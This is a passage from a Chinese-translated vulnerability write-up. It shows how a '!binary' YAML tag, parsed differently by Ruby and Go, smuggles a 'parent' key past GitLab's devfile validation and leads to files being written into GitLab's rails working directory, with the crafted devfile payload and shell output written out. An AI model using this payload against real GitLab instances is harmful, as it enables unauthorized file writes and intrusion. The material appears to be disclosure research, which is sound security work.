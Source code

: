 现在，当我们通过 Ruby 的视角来看它时，它将显示为：  
```
joern@host2:~/projects/devfile$ ruby -ryaml -e 'x = YAML.safe_load(File.read("what.yaml"));puts x'
{"whatever"=>"is here", "\xA5\xAA\xDE\x9E"=>"hehehe injected"}
```  
  
该!binary  
值已被解码为二进制密钥"\xA5\xAA\xDE\x9E"  
，现在，   
Go 解析器的  
鼓声：  
```
joern@host2:~/projects/devfile$ go run g.go what.yaml 
parent: hehehe injected
whatever: is here
```  
  
该!binary  
标签刚刚被悄悄删除，生成的 YAML 密钥称为parent  
。这两种行为的结合正是我们绕过parent  
Devfile YAML 中密钥  
的 Ruby 验证所需的。  
## 将文件写入不属于它们的地方  
  
现在我们已经能够parent  
通过 Ruby 偷偷摸摸地进入 Go 代码了，现在是时候深入研究 devfile 库以及我之前注意到的向工作目录写入奇怪的文件行为了。  
  
首先，我想知道 devfile  
在 GitLab 实例上调用 Gem 中的二进制文件时工作目录在哪里。我希望从利用的角度来看它会是一些有用的目录。  
  
为了找到这一点，我查看了  
文档 howto set up GitLab Workspaces  
。这里有很多要求来正确设置这些工作区、Kubernetes 集群和 GitLab 代理，以及 GitLab 实例上的某些配置项目来设置并将所有内容绑定在一起。我的测试设置的要点是在本地运行所有内容。GitLab 使用 Docker 运行，Kubernetes 端使用minikube  
.  
  
这两部分就位后，我们可以将minkube  
具有   
GitLab 代理  
的集群连接到 GitLab 实例上的组中的项目。在同一组的另一个中，我们可以创建一个.devfile.yaml  
包含以下内容的：  
```
schemaVersion: 2.2.0
!binary parent: 
    uri: https://raw.githubusercontent.com/devfile/registry/main/stacks/nodejs/devfile.yaml'
```  
  
要触发 Devfile 解析，我们现在只需为该项目创建一个工作区：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadZqwibIy39lQY8KQJZrwjeNsQDcEuB6poMqXfEyL6ibKNjfnZcVJlpic0r0Q3nPfMkpDicLGoJ7JOicQQ/640?wx_fmt=png&from=appmsg "")  
  
stack.yaml  
完成此步骤后，我登录到 GitLab Docker 容器，并搜索在我最初观察文件写入行为时解析相同 Devfile 时出现的  
文件。  
```
root@localhost:/# find . -name stack.yaml 2> /dev/null 
./var/opt/gitlab/gitlab-rails/working/stack.yaml
root@localhost:/# cd /var/opt/gitlab/gitlab-rails/working/
root@localhost:/var/opt/gitlab/gitlab-rails/working# ls -lart
total 46
drwxr-xr-x 9 git root  12 Apr 11 12:59 ..
-rw-r--r-- 1 git git  283 Apr 12 13:09 stack.yaml
-rw-r--r-- 1 git git   73 Apr 12 13:09 OWNERS
drwxr-xr-x 2 git git    2 Apr 12 13:09 2.2.0
drwxr-xr-x 2 git git    2 Apr 12 13:09 2.1.1
drwx------ 4 git root   6 Apr 12 13:09 .
```  
  